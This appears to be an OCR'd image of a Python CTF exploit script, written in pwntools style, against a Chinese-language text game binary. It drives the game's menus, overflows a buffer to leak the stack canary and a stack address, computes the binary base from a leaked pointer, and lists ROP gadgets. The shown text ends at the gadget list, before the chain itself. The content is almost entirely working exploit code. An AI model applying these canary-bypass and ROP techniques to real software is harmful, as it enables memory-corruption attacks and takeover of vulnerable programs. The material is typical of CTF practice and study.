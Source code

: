 ```python
sl('')
sla("4. 提现",'4')
sla("提现金额",'30000')
for i in range(2):
    sl('')
    sleep(0.1)
sea("你试着给她发短信说道:",'u'*0x99)
sl('')
ru("u"*0x99)
canary = uu64('\0'+rc(7))
lg('canary',canary)
stack = uu64(rc(6))
lg('stack',stack)
sl('')
sea("又发了一条短信",'u'*0x98+p64(canary))
for i in range(2):
    sl('')
    sleep(0.1)

sleep(1.1)
sl('4')
sla("Y","Y")
for i in range(13):
    sl('')
    sleep(0.1)
sla("2. 十分高兴",'2')
for i in range(10):
    sl('')
    sleep(0.1)
sla("2. 向女友表示网络有风险，投资需谨慎。",'1')
sla("账户名",'u'*8)
sla("你的积蓄",str(150000))
sla("充值金额",str(150000))
sl('')
sla("4. 提现",'4')
sla("提现金额",'30000')
for i in range(2):
    sl('')
    sleep(0.1)
# pause()
sea("你试着给她发短信说道:",'u'*0xa8)
sl('')
'''
 b *(0x7ffff7f0a000+0xB649)
 b *(0x7ffff7f0a000+0xB6EE)
'''
LEAK = uu64(ru('\x7f',drop=False)[-6:])
BASE = LEAK - 0xb885
lg('LEAK',LEAK)
lg('BASE',BASE)
sl('')
'''
0x000000000000cf94 : pop r12 ; pop r13 ; pop r14 ; pop r15 ; pop rbp ; ret
0x0000000000009cbb : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000018c99 : pop r12 ; pop r13 ; pop r14 ; ret
0x000000000001aa96 : pop r12 ; pop r13 ; ret
0x000000000000cb6f : pop r12 ; ret
0x0000000000009cc2 : pop rdi ; ret
0x00000000000ae61b : pop rdx ; pop rbx ; ret
0x0000000000009bcf : pop rdx ; ret
0x000000000000cf99 : pop rsi ; pop r15 ; pop rbp ; ret
0x0000000000009cc0 : pop rsi ; pop r15 ; ret
0x0000000000018c9e : pop rsi ; ret
```